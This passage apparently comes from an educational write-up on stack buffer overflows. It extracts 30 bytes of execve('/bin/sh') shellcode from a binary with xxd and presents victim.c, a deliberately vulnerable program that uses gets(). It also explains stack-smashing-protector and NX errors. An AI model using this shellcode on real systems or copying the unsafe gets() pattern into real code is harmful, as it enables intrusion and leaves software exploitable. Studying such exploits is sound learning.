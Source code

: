 ```
000000000040050e <needle1>:
```

Plain hexdump style beginning with 0x4bf (offset from 0x400000) and print the first 32 bytes
```
xxd -s0x4bf -l32 -p a.out shellcode
```

Since my program begins at address 0x4f1, I run
```
xxd -s0x4f1 -l32 -p a.out shellcode
```

This prints out the instructions of the program (length = 30 bytes) with extra 2 bytes at the end
```
$ cat shellcode
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
```


#### victim.c
```
#include <stdio.h>
int main() {
  char name[64];
  puts("What's your name?");
  gets(name);
  printf("Hello, %s!\n", name);
  return 0;
}
```

victim.c is a buffer overflow example, since given a large enough input, char name[64] will be overflowed and will overwrite return address of main.


The two errors encountered were:

1.
```
*** stack smashing detected ***: ./victim terminated
Aborted (core dumped)
```

    * gcc detected a buffer overflow in the local variables
    * also known as GCC Stack-Smashing Protector (SSP)

2.
```
Segmentation fault (core dumped)
```
    * for a larger input, the return address is not accessible because it has been overwritten with an invalid address
    * Executable space protection (NX)
        * Never execute

Found difference between stack smashing detected and seg fault here: http://stackoverflow.com/questions/35169877/the-difference-between-segment-fault-and-stack-smashing-detected
